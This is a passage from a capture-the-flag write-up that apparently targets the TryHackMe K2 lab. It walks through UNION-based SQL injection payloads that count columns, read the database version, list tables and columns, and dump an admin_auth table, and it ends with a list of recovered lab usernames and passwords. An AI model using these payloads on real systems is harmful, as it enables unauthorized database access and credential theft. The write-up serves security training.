 ![Union SQLi payloads](/images/THM-K2/UNION_SQLi_payloads.png)

After running our attack, we find out that `' UNION SELECT NULL, NULL, NULL; --` is a working payload which means that three columns are expected.

![Union SQLi successful payload](/images/THM-K2/UNION_SQLi_working_payload.png)

Let's test it and try finding the running version of the database.

```SQL
' UNION SELECT NULL, NULL, @@VERSION; --
```

![SQLi db version](/images/THM-K2/SQLi_db_version.png)

We are successful and find version `8.0.33-0ubuntu0.20.04.2`. Next we need to know which database we are currently in.

```SQL
' UNION SELECT NULL, NULL, database(); --
```

We are in the `Ticket Review` database.

![Ticket review database](/images/THM-K2/Ticket_review_db.png)

Now let's list the names of all the tables in that database.

```SQL
' UNION SELECT table_name, NULL, NULL FROM information_schema.tables WHERE table_schema = database(); --
```

And here are our three tables! `admin_auth`, `auth_users`, and `tickets`.

![Tables list in Ticket Reviiew DB](/images/THM-K2/tables_list_k2.png)

Let's check the content of `admin_auth`. 

```SQL
' UNION SELECT column_name, NULL, NULL FROM information_schema.columns WHERE table_name = 'admin_auth'; -- 
```

We discover four columns in the `admin_auth` table which are: `id`, `admin_username`, `admin_password`, and `email`.

![admin_auth columns](/images/THM-K2/admin_auth_columns.png)

Now we retrieve some credentials from `admin_username` and `admin_password`.

```SQL
' UNION SELECT NULL, admin_username, admin_password FROM admin_auth; --
```

Various admin credentials are found, the first ones being: `james:Pwd@9tLNrC3!`.

```
james:Pwd@9tLNrC3!
rose:VrMAogdfxW!9
bob:PasSW0Rd321
steve:St3veRoxx32
cait:PartyAlLDaY!32
xu:L0v3MyDog!3!
ash:PikAchu!IshoesU!
```
